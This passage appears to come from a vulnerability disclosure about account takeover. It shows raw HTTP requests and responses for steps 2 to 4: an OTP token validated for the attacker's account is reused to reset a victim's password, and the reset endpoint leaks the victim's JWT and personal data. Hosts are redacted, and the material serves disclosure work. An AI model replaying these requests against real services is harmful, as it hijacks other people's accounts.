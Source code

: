 ### 2) Validate OTP for **Account A** and obtain `OTP_TOKEN`

**Request**
```http
POST /api/otp-core-ms/v1/validate HTTP/2
Host: [redacted]
Content-Type: application/json

{"otp":"8275","channel":"email","transaction_type":"modify_pass","email":"attacker@example.com"}
```

**Response**
```http
HTTP/2 200 OK
Content-Type: application/json
Content-Length: 24
Set-Cookie: OTP_TOKEN=53472994; Max-Age=300; Path=/; HttpOnly; SameSite=None; Secure

{"data":{"status":"OK"}}
```

> The attacker now has a **single‑use** `OTP_TOKEN` valid for a short TTL (e.g., ~5 minutes).

### 3) Generate reset for **Account B** (victim) to obtain victim’s `jwt` and `accountId`

**Request**
```http
POST /api/otp-core-ms/v2/generate HTTP/2
Host: [redacted]
Content-Type: application/json

{"username":"victim","email":"victim@example.com","channel":"email","transaction_type":"recovery_password"}
```

**Response (success shape)**
```http
HTTP/2 200 OK
Content-Type: application/json

{"status":"SUCCESS","channel":62,"requestId":"[GUID]","datetime":"[DD-MM-YYYY HH:mm:ss]","data":{"resend_left":[int]},
  "accountId":[VICTIM_ACCOUNT_ID],"accountCode":"[REDACTED]",
  "firstName":"[REDACTED]","lastName":"[REDACTED]","birthDate":"[REDACTED]",
  "jwt":"<REDACTED_JWT>"}
```

### 4) **Immediately** confirm reset for **Account B** using `OTP_TOKEN` from **Account A**

**Request**
```http
POST /api/account-ms/v1/recovery/password/confirm HTTP/2
Host: [redacted]
Content-Type: application/json
Cookie: OTP_TOKEN=53472994;

{"jwt":"<VICTIM_JWT>","accountId":<VICTIM_ACCOUNT_ID>,
  "password":"Str0ngP@ssw0rd!","contact":"victim@example.com"}
```

